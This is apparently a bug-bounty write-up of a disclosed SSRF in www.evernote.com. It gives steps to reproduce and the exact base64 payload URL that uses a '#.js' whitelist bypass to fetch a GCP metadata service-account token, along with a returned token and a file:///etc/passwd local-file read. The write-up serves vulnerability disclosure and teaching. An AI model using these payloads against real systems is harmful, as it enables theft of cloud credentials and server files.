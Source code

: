 ### Full read SSRF in www.evernote.com that can leak aws metadata and local file inclusion

https://hackerone.com/reports/1189367  

https://web.archive.org/web/20220331091630/https://blog.neolex.dev/13/


Steps to reproduce

1. Found some juicy enpoints encoded in base64
  For e.g Decoding `L2Y2Y2RkNGJkZmE0YzFiODZmNDQxYzdjMjlmMDcyZTUxMWRkMzQ1MDEuY3Nz` gives you `/f6cdd4bdfa4c1b86f441c7c29f072e511dd34501.css`
2. As the data `f6cdd4bdfa4c1b86f441c7c29f072e511dd34501.css` is reflected in the response attacker though of SSRF
3. Attacker tried to provide internal IP address such as `http://169.254.169.254` by encoding to base64 but it didn't worked after few hit and trial attacker learned about whitelisting which only allow file ending with `.css` or `.js`

He used the following payload 
```
https://www.evernote.com/ro/aHR0cDovL21ldGFkYXRhLmdvb2dsZS5pbnRlcm5hbC9jb21wdXRlTWV0YWRhdGEvdjFiZXRhMS9pbnN0YW5jZS9zZXJ2aWNlLWFjY291bnRzL2RlZmF1bHQvdG9rZW4jLmpz/-1430533899.js
```

Which get's decoded to 

```
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token#.js
```

5. Attacker is able to get the access token 
```
{"access_token":"ya29.c.Ko4B_gd-ROPkMva4XDYr-U2r-G_KMv8hy6ViP1f3kotzmmW9aiK8Zphl0QSOEBgqTSiBYtV-Yuy6-innnpf-0IQEgmBqWU_wT2ZYmGjceeyNB79WxYgDnBrOegozvYYOenisR-xBnkDX_AzAFGsDaToQ87QNHNjpK8CLeoFb3jZkO4D7mn532qv7NYuD9CIH0w","expires_in":2298,"token_type":"Bearer"};
```

7. Attacker was able to get internal file as well using file inclusion
```
file:///etc/passwd#.js
```


